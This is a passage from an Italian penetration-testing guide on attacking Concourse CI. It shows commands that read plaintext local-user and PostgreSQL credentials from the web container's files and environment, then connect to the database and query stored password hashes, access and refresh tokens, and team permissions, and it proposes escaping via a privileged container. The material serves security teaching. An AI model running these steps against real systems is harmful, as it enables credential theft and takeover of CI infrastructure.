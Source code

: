 Anche se il contenitore web ha alcune difese disabilitate, **non viene eseguito come un comune contenitore privilegiato** (ad esempio, **non puoi** **montare** e le **capacità** sono molto **limitate**, quindi tutti i modi facili per uscire dal contenitore sono inutili).

Tuttavia, memorizza **credenziali locali in chiaro**:
```bash
cat /concourse-auth/local-users
test:test

env | grep -i local_user
CONCOURSE_MAIN_TEAM_LOCAL_USER=test
CONCOURSE_ADD_LOCAL_USER=test:test
```
Puoi utilizzare quelle credenziali per **accedere al server web** e **creare un contenitore privilegiato ed evadere al nodo**.

Nell'ambiente puoi anche trovare informazioni per **accedere all'istanza postgresql** che concourse utilizza (indirizzo, **nome utente**, **password** e database tra le altre informazioni):
```bash
env | grep -i postg
CONCOURSE_RELEASE_POSTGRESQL_PORT_5432_TCP_ADDR=10.107.191.238
CONCOURSE_RELEASE_POSTGRESQL_PORT_5432_TCP_PORT=5432
CONCOURSE_RELEASE_POSTGRESQL_SERVICE_PORT_TCP_POSTGRESQL=5432
CONCOURSE_POSTGRES_USER=concourse
CONCOURSE_POSTGRES_DATABASE=concourse
CONCOURSE_POSTGRES_PASSWORD=concourse
[...]

# Access the postgresql db
psql -h 10.107.191.238 -U concourse -d concourse
select * from password; #Find hashed passwords
select * from access_tokens;
select * from auth_code;
select * from client;
select * from refresh_token;
select * from teams; #Change the permissions of the users in the teams
select * from users;
```
#### Abusare del Servizio Garden - Non un vero attacco

> [!WARNING]
> Queste sono solo alcune note interessanti sul servizio, ma poiché ascolta solo su localhost, queste note non presenteranno alcun impatto che non abbiamo già sfruttato prima.

Per impostazione predefinita, ogni worker di concourse eseguirà un [**Garden**](https://github.com/cloudfoundry/garden) servizio sulla porta 7777. Questo servizio è utilizzato dal Web master per indicare al worker **cosa deve eseguire** (scaricare l'immagine ed eseguire ogni attività). Questo sembra piuttosto interessante per un attaccante, ma ci sono alcune buone protezioni:

- È **esposto solo localmente** (127..0.0.1) e penso che quando il worker si autentica contro il Web con il servizio SSH speciale, viene creato un tunnel in modo che il server web possa **comunicare con ogni servizio Garden** all'interno di ogni worker.
- Il server web **monitora i container in esecuzione ogni pochi secondi**, e i container **inaspettati** vengono **eliminati**. Quindi, se vuoi **eseguire un container personalizzato**, devi **manipolare** la **comunicazione** tra il server web e il servizio garden.
